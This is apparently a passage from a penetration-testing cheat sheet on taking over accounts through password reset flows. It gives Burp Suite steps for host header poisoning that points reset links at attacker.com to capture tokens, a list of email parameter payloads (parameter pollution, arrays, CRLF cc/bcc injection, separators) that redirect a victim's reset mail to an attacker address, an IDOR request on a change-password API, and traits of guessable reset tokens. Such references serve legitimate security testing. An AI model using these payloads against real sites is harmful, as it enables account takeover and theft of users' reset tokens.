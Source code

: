 1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Forward the request with the modified header
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
4. Look for a password reset URL based on the *host header* like : `https://attacker.com/reset-password.php?token=TOKEN`


### Password Reset Via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR on API Parameters

1. Attacker have to login with their account and go to the **Change password** feature.
2. Start the Burp Suite and Intercept the request
3. Send it to the repeater tab and edit the parameters : User ID/email
    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

### Weak Password Reset Token

The password reset token should be randomly generated and unique every time.
Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

* Timestamp
* UserID
* Email of User
* Firstname and Lastname
* Date of Birth
* Cryptography
* Number only
* Small token sequence (<6 characters between [A-Z,a-z,0-9])
* Token reuse
* Token expiration date
